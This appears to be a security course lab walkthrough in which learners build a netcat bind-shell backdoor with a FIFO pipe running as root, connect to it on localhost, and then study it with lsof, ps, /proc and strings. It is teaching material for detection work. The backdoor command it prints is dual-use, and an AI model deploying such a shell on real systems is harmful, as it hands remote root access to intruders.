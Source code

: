 
# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running **three** different Ubuntu terminals.

 > Terminal 1 is where the backdoor will be run.

 > Terminal 2 is where we will connect to the back door.

 > Terminal 3 is where we will be running our analysis.

***

Let’s get started by opening a Terminal as Administrator, there are a few methods to do this.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

When you get the User Account Control Prompt, select Yes.

And, open a **Ubuntu** command prompt:

==####NOTE#####== 

If you are havin trouble launching any of Windows many terminals.  All you have to do is click on the Windows Start button and type.  

`Powershell`, `Ubuntu`, or `Command Prompt` 

If you use **PowerShell** or **Command Prompt**, you will have to right click on them and select Run As Administrator 

==###END NOTE###==

***

On your **Linux** terminal, please run the following command:

`sudo su - `

The password is adhd.

This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

Next, we will need to create a **FIFO** backpipe:

`mknod backpipe p`

Next, let's start the backdoor:

`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command, we are creating a **Netcat listener** that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the **Netcat listener**. 

On a more basic level, this will create a backdoor listening on port 2222 of our **Linux** system.

Now, let's open another **Ubuntu** terminal.  This terminal will connect to the backdoor we just created.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we will need to know the IP address of our **linux** system:

`ifconfig`

![](attachments/ifconfigKaliInstance.png)

Now, let's connect:

`nc 127.0.0.1 2222`

# Remember!!!  Your IP address will be different!!!!

***

It can be confusing to tell whether or not you are connected to the backdoor.  A few ways to confirm are as follows.  

1. Typing some commands to ensure it is working

`ls`

`whoami`

![](attachments/lswhoamiKaliInstance.png)

2. If your cursor drops down to the bottom left side of your screen.

***

At this point, we have created a backdoor with one terminal, and we have connected to this backdoor with another terminal.  Now, let's open yet another **Ubuntu** terminal and use this use for the purpose of analysis.  

Let's begin by using one of the two methods used earlier to open a new **Ubuntu** Terminal.  

Method 1 is to right click on the desktop and select open. 

![](attachments/OpeningKaliInstance.png)

Method 2 is to simply click on the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

On your Linux terminal, please run the following command:

`sudo su -`

This will get us to a root prompt.  When we say root prompt we mean a terminal with the highest level of permission possible.  We want to be in a root prompt because looking at network connections and process information system wide requires root priviledges (or the highest level of priviledges).  

Let's start by looking at the network connections with **lsof**.  When we use **lsof**, we are looking at open files.  When we use the **-i** flag we are looking at the open Internet connections.  When we use the **-p** flag we are telling **lsof** to not try and guess what the service is on the ports that are being used. Just give us the port number.

`lsof -i -p`


![](attachments/lsof-i-pKaliInstance.png)

Now let's dig into the **netcat process ID**.  We can do this with the lowercase **-p** switch.  This will give us all the open files associated with the listed process ID.

`lsof -p 131`

![](attachments/lsof-pKaliInstance.png)

Let's look at the full processes.  We can do this with the **ps** command. We are also adding the **aux switches**.  

aux
* a is for all processes
* u is for sorted users
* x is for all processes using a teletype terminal

Type out this command.

`ps aux`

![](attachments/psauxKaliInstance.png)

Let's change directories into the **proc** directory for that **pid**.  Remember, **proc** is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

`cd /proc/[pid]`

![](attachments/procPIDKaliInstance.png)

We can see a number of interesting directories here:

`ls`

![](attachments/lsKaliInstance.png)

# Remember!!!  Your PID will be different!!!

***

We can run strings on the exe in this directory.  When programs are created there may be usage information, mentions of system libraries, and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

`strings ./exe | less`

![](attachments/strings_exelessKaliInstance.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

![](attachments/netcatusageKaliInstance.png)

***














